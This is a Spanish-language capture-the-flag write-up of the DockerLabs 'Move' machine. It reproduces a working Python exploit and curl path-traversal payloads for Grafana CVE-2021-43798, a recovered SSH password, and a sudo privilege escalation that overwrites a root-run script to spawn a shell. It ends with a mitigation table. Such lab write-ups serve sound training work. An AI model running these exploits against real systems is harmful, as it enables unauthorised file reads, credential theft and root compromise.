


# Move — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar la explotación de un Directory Traversal para obtener acceso SSH y escalada de privilegios con GTFOBins.

## Attack chain

**Nmap → FTP Enumeration → Anonymous FTP Access → Grafana Enumeration → Directory Traversal (CVE-2021-43798) → Arbitrary File Read → Credential Disclosure → SSH Access → Sudo Enumeration → Writable Python Script Abuse → Python3 Privilege Escalation → Root**

## 1. Reconocimiento

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ nmap -sV -sC -p- 172.17.0.2 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-16 15:41 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    1 0        0            4096 Mar 29  2024 mantenimiento [NSE: writeable]
22/tcp   open  ssh     OpenSSH 9.6p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   256 77:0b:34:36:87:0d:38:64:58:c0:6f:4e:cd:7a:3a:99 (ECDSA)
|_  256 1e:c6:b2:91:56:32:50:a5:03:45:f3:f7:32:ca:7b:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Debian))
|_http-server-header: Apache/2.4.58 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3000/tcp open  http    Grafana http
|_http-title: Did not follow redirect to /login
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 76:98:68:EF:D8:88 (Unknown)
```

Puertos interesantes: FTP anónimo con una carpeta escribible (`mantenimiento`), SSH, Apache default, y Grafana con `robots.txt` bloqueando todo (señal de que hay algo para esconder).


## 2. Enumeración FTP

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ ftp 172.17.0.2            
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:mariano): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||10913|)
150 Here comes the directory listing.
drwxr-xr-x    1 0        104          4096 Mar 29  2024 .
drwxr-xr-x    1 0        104          4096 Mar 29  2024 ..
drwxrwxrwx    1 0        0            4096 Mar 29  2024 mantenimiento
226 Directory send OK.
ftp> cd mantenimiento
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||51914|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0            2021 Mar 29  2024 database.kdbx
226 Directory send OK.
ftp> get database.kdbx
local: database.kdbx remote: database.kdbx
229 Entering Extended Passive Mode (|||34484|)
150 Opening BINARY mode data connection for database.kdbx (2021 bytes).
100% |***********************************************************************************|  2021       30.59 MiB/s    00:00 ETA
226 Transfer complete.
2021 bytes received in 00:00 (1.53 MiB/s)
ftp> exit
221 Goodbye.

```
Se descargó una base de datos de **KeePass** (`database.kdbx`). *Spoiler: terminó siendo un red herring — no hizo falta para resolver la máquina.*

## 3. Identificando la vulnerabilidad en Grafana

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ curl -s "http://172.17.0.2:3000/api/health"
{
  "commit": "914fcedb7",
  "database": "ok",
  "version": "8.3.0"
}

```



**Grafana 8.3.0** es vulnerable a **CVE-2021-43798** (Directory Traversal / Arbitrary File Read), que afecta las versiones 8.0.0-beta1 hasta 8.3.0.

### Primer intento, fallido por normalización de la URL

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ curl -s "http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../etc/passwd"
<a href="/login">Found</a>.

```
curl normaliza automáticamente las secuencias `../` antes de mandar la petición. Hay que forzarlo con `--path-as-is`:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ curl -s --path-as-is "http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../etc/passwd"
{
  "message": "Plugin file not found"
}

```

Con `--path-as-is` el traversal ya llega intacto al servidor (el mensaje confirma que el plugin `alertlist` existe), pero la cantidad de `../` todavía no era la correcta.

## 4. Explotación con el exploit de searchsploit

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ searchsploit grafana 8.3.0           
--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                               |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                  | multiple/webapps/50581.py
--------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ searchsploit -m multiple/webapps/50581.py
  Exploit: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50581
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50581.py
    Codes: CVE-2021-43798
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/mariano/Downloads/dockerlabs-machines/02-faciles/move/50581.py

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ cat 50581.py 
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# CVE: CVE-2021-43798
# Version: V8.0.0-beta1 through V8.3.0

#!/usr/bin/env python3
import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist", "annolist", "barchart", "bargauge", "candlestick",
    "cloudwatch", "dashlist", "elasticsearch", "gauge", "geomap",
    "gettingstarted", "grafana-azure-monitor-datasource", "graph",
    "heatmap", "histogram", "influxdb", "jaeger", "logs", "loki",
    "mssql", "mysql", "news", "nodeGraph", "opentsdb", "piechart",
    "pluginlist", "postgres", "prometheus", "stackdriver", "stat",
    "state-timeline", "status-histor", "table", "table-old",
    "tempo", "testdata", "text", "timeseries", "welcome", "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }
    while True:
        file_to_read = input('Read file > ')
        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)
            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass
```

Este script usa 14 niveles de `../`, asegurándose de llegar siempre a la raíz `/` sin importar la profundidad real, y arma la URL manualmente (sin dejar que `requests` la normalice).

### Confirmando el traversal

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ python3 50581.py -H http://172.17.0.2:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash

```

El único usuario con shell válida (`/bin/bash`) es **freddy** → objetivo claro para SSH.

### Buscando credenciales (sin éxito)

```bash
Read file > /home/freddy/.ssh/id_rsa
[-] File not found

Read file > /home/freddy/.bash_history
[-] File not found

Read file > /home/freddy/user.txt
[-] File not found

Read file > /home/freddy/note.txt
[-] File not found

Read file > /home/freddy/README.txt
[-] File not found

```

Se leyó también `/etc/grafana/grafana.ini` y `/var/lib/grafana/grafana.db` — resultó ser una instalación default de Grafana (`admin_password = admin` comentado por default), sin datasources ni credenciales custom.

## 5. Enumeración web adicional

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,jpg,png,zip,kdbx -t 50
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              kdbx,php,txt,html,jpg,png,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10701]
maintenance.html     (Status: 200) [Size: 63]
server-status        (Status: 403) [Size: 275]
Progress: 1764464 / 1764464 (100.00%)
===============================================================
Finished
===============================================================

```

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ curl -s http://172.17.0.2/maintenance.html
<h1>Website under maintenance, access is in /tmp/pass.txt</h1>

```


Pista directa hacia un archivo en `/tmp/`. Usando el mismo traversal de Grafana:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/move]
└─$ python3 50581.py -H http://172.17.0.2:3000
Read file > /tmp/pass.txt
t9sH76gpQ82UFeZ3GXZS

```
## 6. Acceso SSH

```bash

┌──(mariano㉿Kaotic)-[~]
└─$ ssh freddy@172.17.0.2                                
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:vI77ttzFmsp8NiCsxBpeZipRCZ9MdfkeMJojz7qMiTw
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
freddy@172.17.0.2's password: 
Linux 65d0067868cc 7.2.15+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.2.15-1kali1 (2026-11-03) x86_64

```
Acceso confirmado como **freddy** con la contraseña `t9sH76gpQ82UFeZ3GXZS`.

## 7. Escalada de privilegios

```bash

┌──(freddy㉿65d0067868cc)-[~]
└─$ sudo -l                                                                                                                     
Matching Defaults entries for freddy on 65d0067868cc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User freddy may run the following commands on 65d0067868cc:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

```bash
┌──(freddy㉿65d0067868cc)-[~]
└─$ ls -la /opt/maintenance.py                                                                                                 
-rw-r--r-- 1 freddy freddy 35 Mar 29  2024 /opt/maintenance.py

┌──(freddy㉿65d0067868cc)-[~]
└─$ cat /opt/maintenance.py
print("Server under beta testing")

```

El script es propiedad de **freddy**, así que se puede sobreescribir libremente. Como se ejecuta con `sudo` sin contraseña, cualquier código que se ponga ahí corre como **root** ([GTFOBins - python3](https://gtfobins.github.io/gtfobins/python3/#sudo)):

```bash
┌──(freddy㉿65d0067868cc)-[~]
└─$ echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py

┌──(freddy㉿65d0067868cc)-[~]
└─$ cat /opt/maintenance.py
import os; os.system("/bin/bash")

┌──(freddy㉿65d0067868cc)-[~]
└─$ sudo python3 /opt/maintenance.py
┌──(root㉿65d0067868cc)-[/home/freddy]
└─# id
uid=0(root) gid=0(root) groups=0(root)

┌──(root㉿65d0067868cc)-[/home/freddy]
└─# whoami                                                                                                                     
root

```

**Root obtenido.**

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios FTP, SSH, Apache y Grafana. Durante la enumeración FTP, se encontró acceso anónimo y una base de datos de **KeePass**, que finalmente no fue necesaria para resolver la máquina.

Posteriormente, al analizar la versión de Grafana (8.3.0), se identificó la vulnerabilidad **CVE-2021-43798 (Directory Traversal)**, que permitió leer archivos del sistema. Mediante la enumeración web con **Gobuster**, se descubrió una pista que condujo a `/tmp/pass.txt`, donde se obtuvo la contraseña del usuario `freddy`, logrando acceso mediante SSH.

Una vez dentro del sistema, la enumeración de permisos con **sudo -l** reveló que `freddy` podía ejecutar `/opt/maintenance.py` como root. Al comprobar que el archivo era de su propiedad, se modificó su contenido para ejecutar una shell con privilegios elevados, obteniendo acceso como **root**.

En conclusión, esta máquina combina una vulnerabilidad de lectura arbitraria de archivos en Grafana para obtener credenciales y una escalada de privilegios mediante la modificación de un script Python ejecutado con permisos de root.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **FTP Anonymous habilitado** | Permite acceder a archivos del servidor sin autenticación, exponiendo información potencialmente sensible. | Deshabilitar el acceso anónimo o restringirlo a directorios y permisos estrictamente necesarios. |
| **Directory Traversal en Grafana (CVE-2021-43798)** | Permite leer archivos arbitrarios del sistema, incluyendo archivos con información sensible y credenciales. | Actualizar Grafana a una versión corregida y restringir el acceso a la interfaz de administración. |
| **Exposición de credenciales en archivos** | Permite obtener contraseñas que pueden utilizarse para acceder a otros servicios, como SSH. | Evitar almacenar credenciales en archivos accesibles y aplicar una gestión segura de secretos. |
| **Script Python modificable ejecutado como root** | Permite inyectar código arbitrario que se ejecuta con privilegios de administrador. | Restringir los permisos de escritura y asignar la propiedad de los scripts privilegiados a root. |
| **Configuración insegura de sudo** | Permite ejecutar código arbitrario con privilegios elevados mediante un script modificable. | Revisar las reglas de sudoers y evitar conceder permisos sobre scripts que puedan ser modificados por usuarios sin privilegios. |

## Recomendaciones generales

- Mantener Grafana y los demás servicios actualizados para evitar vulnerabilidades conocidas.
- Deshabilitar servicios innecesarios y restringir el acceso anónimo a FTP.
- Evitar almacenar credenciales en archivos accesibles y utilizar contraseñas robustas.
- Revisar periódicamente los permisos de archivos y las configuraciones de `sudoers`.
- Aplicar el principio de mínimo privilegio en todos los servicios y usuarios del sistema.
- Revisar y restringir los permisos de archivos y scripts que son ejecutados periódicamente por procesos con privilegios elevados.
- Auditar periódicamente binarios con bit SUID/SGID en el sistema.
